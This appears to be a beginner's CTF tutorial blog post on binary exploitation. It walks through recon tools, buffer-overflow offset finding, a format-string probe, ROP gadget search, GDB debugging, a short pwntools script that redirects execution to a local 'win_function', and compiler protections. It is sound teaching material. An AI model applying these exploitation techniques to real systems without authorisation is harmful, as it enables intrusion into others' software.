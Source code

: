 ```yaml
---
title: "Starting Point: A Comprehensive Guide to Binary Exploitation"
date: "2025-02-03"
author: "Sumon Nath"
tags: [CTF, cybersecurity, binary exploitation, reverse engineering, recon]
---
```


# Starting Point: A Comprehensive Guide to Binary Exploitation

Binary exploitation is a core concept in Capture The Flag (CTF) competitions. It involves analyzing and manipulating compiled binaries to uncover vulnerabilities such as buffer overflows, format string attacks, and return-oriented programming (ROP) chains. This guide provides an approach to reconnaissance techniques for identifying and exploiting binary vulnerabilities.

---

## **1. Understanding Binary Exploitation**

### **What is Binary Exploitation?**
Binary exploitation refers to attacking software by manipulating its binary-level execution. This often requires:
- Reverse engineering
- Identifying memory corruption vulnerabilities
- Crafting exploits to control program flow

### **Common Binary Exploits**
- Buffer Overflow
- Format String Vulnerabilities
- Use-After-Free (UAF)
- Heap Exploitation
- Return-Oriented Programming (ROP)

---

## **2. Reconnaissance for Binary Exploitation**

### **Identifying the Binary Type**
Use `file` to determine the binary type:
```bash
file binary_file
```
Example output:
```
binary_file: ELF 64-bit LSB executable, x86-64, dynamically linked
```

### **Analyzing Symbols and Functions**
Use `strings` to extract readable text:
```bash
strings binary_file | less
```

Use `nm` to list function symbols:
```bash
nm -C binary_file
```

### **Disassembling the Binary**
Use `objdump` to view assembly instructions:
```bash
objdump -d binary_file | less
```

For interactive analysis, use `Ghidra` or `IDA Pro`.

### **Checking Security Protections**
Use `checksec` to analyze binary protections:
```bash
checksec --file=binary_file
```

Look for:
- NX (No eXecute) bit
- Stack Canary
- PIE (Position Independent Executable)
- RELRO (Relocation Read-Only)

---

## **3. Exploiting Binary Vulnerabilities**

### **Buffer Overflow**
If a buffer overflow is present, find the offset using `pattern_create`:
```bash
python3 -c 'print("A"*100)' | ./binary_file
```

Identify the crash offset with:
```bash
pattern_create -l 100
```
```bash
pattern_offset -q <crash_address>
```

### **Format String Vulnerabilities**
If the binary accepts formatted input, test for vulnerabilities:
```bash
echo -e "%x.%x.%x.%x" | ./binary_file
```
If memory addresses are leaked, further exploitation is possible.

### **ROP Chain Exploitation**
Use `ROPgadget` to find useful return gadgets:
```bash
ROPgadget --binary binary_file
```
Create a payload that redirects execution to a desired function.

### **Heap Exploitation**
Use `pwndbg` in GDB to analyze heap structures:
```bash
gdb -q binary_file
(gdb) pwndbg heap
```
Identify and exploit heap corruption vulnerabilities.

---

## **4. Debugging and Exploit Development**

### **Using GDB for Debugging**
Attach GDB and run the binary:
```bash
gdb -q binary_file
(gdb) run
```
Set breakpoints:
```bash
(gdb) break *0xdeadbeef
(gdb) continue
```
Inspect memory registers:
```bash
(gdb) info registers
```

### **Automating Exploits with PwnTools**
Write Python exploits using `pwntools`:
```python
from pwn import *

binary = ELF("binary_file")
p = process("binary_file")
p.sendline(b"A"*40 + p64(binary.symbols['win_function']))
p.interactive()
```
Run the exploit:
```bash
python3 exploit.py
```

---

## **5. Preventing Binary Exploits**

### **Use Compiler Protections**
- **Enable Stack Canaries:** `-fstack-protector`
- **Enforce ASLR:** `echo 2 > /proc/sys/kernel/randomize_va_space`
- **Enable RELRO:** `-Wl,-z,relro,-z,now`

### **Implement Secure Coding Practices**
- Avoid `gets()` and `strcpy()`; use `fgets()` and `strncpy()` instead.
- Validate input lengths before processing.
- Sanitize format string inputs.

---

## **Conclusion**

Binary exploitation is an advanced field in cybersecurity and CTF challenges. By analyzing compiled binaries, identifying vulnerabilities, and crafting exploits, security researchers can develop a deeper understanding of system security.

🚀 Keep practicing and stay sharp!

---

💡 **Want more binary exploitation insights?** Stay tuned for advanced reverse engineering techniques!

